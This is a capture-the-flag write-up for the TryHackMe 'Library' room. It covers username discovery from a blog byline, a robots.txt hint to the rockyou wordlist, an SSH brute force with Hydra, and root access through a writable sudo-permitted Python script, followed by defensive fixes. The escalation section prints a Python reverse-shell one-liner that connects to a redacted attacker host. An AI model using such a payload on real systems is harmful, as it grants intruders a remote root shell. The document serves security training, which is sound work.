# Library Writeup

**Machine Name:** Library  
**Platform:** TryHackMe  
**Difficulty:** Easy

---



## Introduction

Library is an easy-difficulty TryHackMe room built around a small blog server, but the "blog" part barely matters in the end. What matters is everything sitting around it: a byline that doubles as a real username, a robots.txt file that all but names the wordlist to crack it with, and a backup script a low-privileged user is allowed to both run as root and rewrite.

None of this is a dramatic exploit on its own. There's no memory corruption, no chained CVEs, nothing you'd call clever. It's closer to a row of dominoes: one small oversight points to the next, and by the fourth step the box is fully owned. I think that's what makes it worth writing up. The mistakes are small and ordinary, which is exactly the kind of thing that shows up in real environments too.

## Phase 1: Enumeration

I started with a full TCP port scan against the target. Only two ports came back open: **22 (SSH)** and **80 (HTTP)**.

With a web server in play, the next step was just loading the site in a browser.



It turned out to be a fairly generic-looking blog ("Hack the planet!!!") with a single post underneath it. The post content itself didn't matter, but its byline did: it was credited to a user named **meliodas**.



> **Security Issue #1:** Username Leaked via Blog Post. A blog byline seems harmless enough, but if that same handle is also a valid system login, it's really a username disclosure. Crediting posts with a name that doubles as an account handle hands an attacker half of a credential pair before any brute-forcing even starts.

## Phase 2: Directory Enumeration and an Unintentional Hint

A directory scan against the site turned up a few standard paths: `/images/`, `/server-status`, and `/robots.txt`. Nothing jumped out as an obvious vulnerability by itself.



`robots.txt` is normally the least interesting file on a server, just a handful of `Disallow` rules meant for search crawlers. This one was different.



Instead of a real crawler name, the `User-agent` field read **rockyou**, the name of one of the most widely leaked password wordlists around. Paired with the username already in hand, that didn't feel like a coincidence. It read like a pointer telling me exactly how the login was meant to be cracked.

> **Security Issue #2:** robots.txt Hinting at the Attack Path. `robots.txt` is public by design, so it should never carry anything beyond routine crawler directives. Here it told an attacker which wordlist to brute-force the login with, which is about the last thing that file should be doing.

## Phase 3: Brute-Forcing SSH

With a username and a not-so-subtle hint about the wordlist, the next step was straightforward: point Hydra at SSH with the username `meliodas` and `rockyou.txt`.



It didn't take long to land a hit.



> **Security Issue #3:** Weak SSH Password With No Lockout. The cracked password was a plain dictionary word plus a number, sitting inside one of the most common leaked-password lists out there. Nothing on the SSH service slowed the attempt down either; no rate limiting, no lockout after repeated failures. A weak password is one problem. A weak password nobody can get locked out for guessing is a bigger one.

Logging in with the cracked credentials dropped me straight into a shell as `meliodas`.



### First flag

A quick look at the home directory turned up two files: `bak.py` and `user.txt`. Reading the second one gave up the first flag.



## Phase 4: Privilege Escalation via a Backup Script

`bak.py` turned out to be a small, root-owned script that zips the contents of `/var/www/html` into a backup archive, a reasonable enough thing for a scheduled job to do. What made it interesting was checking what `meliodas` was allowed to run through `sudo`.



`sudo -l` showed `meliodas` could run `/usr/bin/python*` against `/home/meliodas/bak.py` as root with **no password required**. The part that mattered: that script lived inside `meliodas`'s own home directory.

I tried running it straight through `sudo` first just to see what would happen. Nothing useful came out of it.


Since the script sat in a directory `meliodas` controlled, I could just replace it. It was marked write-protected, but removing it and creating a new file under the same name worked without any fuss. I swapped the new `bak.py` for a short Python reverse-shell payload.



revershell paylod i use:

```
import socket,os,pty;s=socket.socket();s.connect(("<REDACTED_IP>",<REDACTED_PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

> **Security Issue #4:** Sudo Rule Pointing at a User-Writable Script. Passwordless `sudo` on a script is only as safe as the script itself. Because `bak.py` sat inside `meliodas`'s own home directory, the same low-privileged user allowed to _run_ it as root was also free to _rewrite_ it first. A routine backup job became a straight line to a root shell.

With the payload in place, I started a listener locally to catch the callback.



Then I ran the script the same way it was meant to run, through the permitted `sudo` rule.



The listener caught the connection a moment later. `whoami` confirmed it: **root**.



### Root Flag

From the new root shell, `/root/root.txt` was sitting right there waiting, and that closed out the room.



## Blue Team Perspective

Working back through this chain, here's what I think a defensive team would have caught, and where.

### 1. Username Exposed on a Public Page

A blog byline that matches a real system account is easy recon for anyone browsing the site. **Fix:** don't reuse real account handles as public display names, and treat every name, path, or comment visible on a production site as something an attacker will read closely.

### 2. robots.txt Used as an Accidental Hint

A file meant to guide search crawlers ended up guiding a password attack instead. **Fix:** keep `robots.txt` limited to genuine crawl directives, and check what's actually sitting in "boilerplate" files that nobody thinks to review.

### 3. No Brute-Force Protection on SSH

A weak, dictionary-crackable password had unlimited login attempts with no lockout to stop it. **Fix:** enforce a real password policy or move to key-based authentication only, and add rate-limiting or lockout tooling (fail2ban, for instance) on any internet-facing login service.

### 4. Privileged Script Left Writable by the User Running It

The sudo rule trusted the script without checking whether the user could change it. **Fix:** never pair passwordless `sudo` with a script the same user can edit. Keep privileged scripts root-owned, outside user-writable directories, and skip wildcards in `sudoers` entries.



---

This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I try to approach each challenge from both offensive and defensive angles, because understanding both sides is what makes a well-rounded security professional.

If you're also on the journey toward a SOC or Security Engineering role, feel free to connect. I'm always happy to talk through techniques and share resources.
